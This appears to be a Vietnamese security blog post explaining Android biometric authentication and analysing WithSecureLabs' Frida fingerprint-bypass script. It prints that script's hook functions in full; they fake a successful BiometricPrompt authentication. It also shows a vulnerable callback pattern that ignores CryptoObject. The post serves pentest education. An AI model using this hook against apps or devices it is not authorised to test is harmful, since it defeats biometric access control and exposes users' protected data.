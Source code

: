 ```yaml
---
title: "FINGERPRINT BYPASS"
layout: single
last_modified_at: 29-12-2023T16:08:30
categories:
  - Blog
tags:
  - Security Mobile
  - Hacking Mobile
  - Pentest Mobile
---
```


**Date created: Fri, 29-12-2023 08:30**

## Mở đầu

Biometric authentication được thực hiện bằng cách sử dụng class `FingerprintManager` hoặc `BiometricPrompt` để quản lý cơ chế authentication và hộp thoại thông báo của ứng dụng yêu cầu người dùng authenticate.
Class `FingerprintManager` được giới thiệu trong API 23 chỉ hỗ trợ xác thực dấu vân tay và không dùng nữa kể từ API 28. Thay vào đó `BiometricPrompt` được phát hành và cách sử dụng cũng khá tương đồng với `FingerprintManager`.

## Biometric/Fingerprint authentication

Theo như tài liệu của Android, class `BiometricPrompt` có một phương thức rất quan trọng đó là `authenticate`.

```java
public void authenticate (BiometricPrompt.CryptoObject crypto, CancellationSignal cancel, Executor executor, BiometricPrompt.AuthenticationCallback callback)
```

Phương thức này sẽ khởi động phần cứng biometric, hiển thị hộp thoại do hệ thống cung cấp yêu cầu sinh trắc học của người dùng và bắt đầu quét để xác thực sinh trắc học. Phương thức này bao gồm các đối số(arguments) lần lượt là:

- [ **`crypto`**](https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.CryptoObject): Đối tượng này chứa tham chiếu tới entry trong keystore cần được mở khoá. Để triển khai xác thực sinh trắc học một cách an toàn, keystore key bên trong đối tượng **`crypto`** phải được sử dụng cho một số các hoạt động cryptographic quan trọng của ứng dụng.
- [**`cancel`**](https://developer.android.com/reference/android/os/CancellationSignal): Đối tượng này dùng để huỷ việc xác thực.
- [**`executor`**](https://developer.android.com/reference/java/util/concurrent/Executor): Executor này sẽ chịu trách nhiệm xử lý các sự kiện của callback.
- [**`callback`**](https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback): Đối tượng này là một `structure with callbacks` sẽ nhận các sự kiện xác thực được dispatch thông qua Executor.
  Trong đó hai đối số quan trọng mà cần chú ý dó là **`crypto`** và **`callback`** vì nó chịu trách nhiệm liên quan tới vấn đề xác thực của phương thức này.
  Tham số `BiometricPrompt.AuthenticationCallback` được sử dụng như một callback structure thực hiện các phương thức như là:
- [onAuthenticationSucceeded(BiometricPrompt.AuthenticationResult result)](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationSucceeded(android.hardware.biometrics.BiometricPrompt.AuthenticationResult)>)
- [onAuthenticationError](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationError(int,%20java.lang.CharSequence)>)()
- [onAuthenticationFailed](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationFailed()>)()
  Trong đó phương thức `onAuthenticationSucceeded` sẽ kích hoạt khi người dùng được hệ thống xác thực thành công. Phương thức mở khoá ứng dụng thường có sẵn bên trong cái phương thức `callback` này.
  Ý tưởng khai thác cho vấn đề này là thực hiện hooking vào process của ứng dụng và thực hiện gọi trực tiếp phương thức **`onAuthenticationSucceded`** từ đó ứng dụng sẽ được mở khoá ngay lập tức mà không cần cung cấp sinh trắc học hợp lệ.
  Việc triển khai của phương thức **`onAuthenticationSucceded`** có lỗ hổng thường sẽ tương tự như đoạn code sau:

```java
public void onAuthenticationSucceeded(FingerprintManager.AuthenticationResult result) {
// Hiển thị thông báo truy cập thành công
Toast.makeText(getActivity(), "Access granted",Toast.LENGTH_LONG).show();
// Phương thức truy cập có sẵn bên trong phương thức được gọi
accessGranted();
}
```

Ta có thể thấy một điều rằng đoạn code ở trên không hề sử dụng bất kỳ đối tượng `CryptoObject` nào được truyền vào `AuthenticationResult` thay vào đó chỉ giả xử rằng quá trình xác thực đã thành công vì phương thức `onAuthenticationSucceded` được gọi.

## Phân tích script dùng để bypass fingerprint-bypass của [WithSecureLabs](https://github.com/WithSecureLabs)

Như đã mô tả ở trên, hướng tiếp cận của script là thực hiện hook vào callback method `onAuthenticationSucceded` để bypass qua việc xác thực sinh trắc học dựa vào cơ chế cho phép truy cập mà không cần xem xét tới đối tượng `cryptoObject`.

```javascript
function getAuthResult(resultObj, cryptoInst) {
  try {
    var authenticationResultInst = resultObj.$new(cryptoInst, null, 0, false);
  } catch (error) {
    try {
      var authenticationResultInst = resultObj.$new(cryptoInst, null, 0);
    } catch (error) {
      try {
        var authenticationResultInst = resultObj.$new(cryptoInst, null);
      } catch (error) {
        try {
          var authenticationResultInst = resultObj.$new(cryptoInst, 0);
        } catch (error) {
          var authenticationResultInst = resultObj.$new(cryptoInst);
        }
      }
    }
  }
  console.log(
    "cryptoInst:, " + cryptoInst + " class: " + cryptoInst.$className
  );
  return authenticationResultInst;
}
```

Script trước tiên sẽ định nghĩa ra hàm `getAuthResult` nhận vào hai tham số (`resultObj` và `cryptoInst`). Hàm này sẽ cố gắng tạo ra một thể hiện(instance) `AuthenticationResult` của class `android.hardware.biometrics.BiometricPrompt$AuthenticationResult` bằng cách thử kết hợp nhiều đối số của phương thức khởi tạo hàm(constructor). Mục đích là để xử lý các constructor signatures khác nhau có thể có trong các phiên bản hoặc các triển khai(implementations) Android khác nhau.

```javascript
function getBiometricPromptAuthResult() {
  var sweet_cipher = null;
  var cryptoObj = Java.use(
    "android.hardware.biometrics.BiometricPrompt$CryptoObject"
  );
  var cryptoInst = cryptoObj.$new(sweet_cipher);
  var authenticationResultObj = Java.use(
    "android.hardware.biometrics.BiometricPrompt$AuthenticationResult"
  );
  var authenticationResultInst = getAuthResult(
    authenticationResultObj,
    cryptoInst
  );
  return authenticationResultInst;
}
```

Tiếp theo, script định nghĩa một hàm tên là `getBiometricPromptAuthResult`, để tạo ra một thể hiện của `BiometricPrompt$AuthenticationResult`. Đồng thời cũng tạo ra một thể hiện mới của `BiometricPrompt$CryptoObject` với giá trị `Cipher` bằng `null`. Sau đó gọi hàm `getAuthResult` truyền vào hai tham số là `authenticationResultObj` và `cryptoInst` mới được tạo trước đó để lấy được giá trị cuối cùng của thể hiện(instance) `AuthenticationResult`.

```javascript
function hookBiometricPrompt_authenticate() {
  var biometricPrompt = Java.use("android.hardware.biometrics.BiometricPrompt")[
    "authenticate"
  ].overload(
    "android.os.CancellationSignal",
    "java.util.concurrent.Executor",
    "android.hardware.biometrics.BiometricPrompt$AuthenticationCallback"
  );

  console.log("Hooking BiometricPrompt.authenticate()...");

  biometricPrompt.implementation = function (
    cancellationSignal,
    executor,
    callback
  ) {
    console.log(
      "[BiometricPrompt.BiometricPrompt()]: cancellationSignal: " +
        cancellationSignal +
        ", executor: " +
        ", callback: " +
        callback
    );

    var authenticationResultInst = getBiometricPromptAuthResult();

    callback.onAuthenticationSucceeded(authenticationResultInst);
  };
}
```

Hàm `hookBiometricPrompt_authenticate`, được định nghĩa để thực hiện hook vào phương thức `authenticate` của class `android.hardware.biometrics.BiometricPrompt` có đối số lần lượt là ==('android.os.CancellationSignal', 'java.util.concurrent.Executor', 'android.hardware.biometrics.BiometricPrompt$AuthenticationCallback')==. Tiếp đó thực hiện in ra các tham số của hàm `biometricPrompt.authenticate` đó và gọi hàm `getBiometricPromptAuthResult` đã được định nghĩa ở trên, lưu vào biến `authenticationResultInst`. Cuối cùng là gọi phương thức callback `onAuthenticationSucceeded` và truyền vào biến `authenticationResultInst`.

```
function hookBiometricPrompt_authenticate2() {

    var biometricPrompt = Java.use('android.hardware.biometrics.BiometricPrompt')['authenticate'].overload('android.hardware.biometrics.BiometricPrompt$CryptoObject', 'android.os.CancellationSignal', 'java.util.concurrent.Executor', 'android.hardware.biometrics.BiometricPrompt$AuthenticationCallback');

    console.log("Hooking BiometricPrompt.authenticate2()...");

    biometricPrompt.implementation = function (crypto, cancellationSignal, executor, callback) {

        console.log("[BiometricPrompt.BiometricPrompt2()]: crypto:" + crypto + ", cancellationSignal: " + cancellationSignal + ", executor: " + ", callback: " + callback);

        var authenticationResultInst = getBiometricPromptAuthResult();

        callback.onAuthenticationSucceeded(authenticationResultInst);

    }

}
```

Hàm `hookBiometricPrompt_authenticate2`, cũng tương tự nhưng đối số sẽ bao gồm thêm ==('android.hardware.biometrics.BiometricPrompt$CryptoObject')==. Đối tượng này như đã được trình bày ở trên sẽ chịu trách nhiệm về các vấn đề liên quan đến việc tham chiếu tới keystore entry của ứng dụng.

## Tổng kết

Bên trên là bài báo cáo chi tiết về nguyên do dẫn đến lỗi `Biometric authentication` này cũng như luồng thực thi của script frida fingerprint bypass của WithSecureLabs.

---

References:

- https://labs.withsecure.com/publications/how-secure-is-your-android-keystore-authentication

---
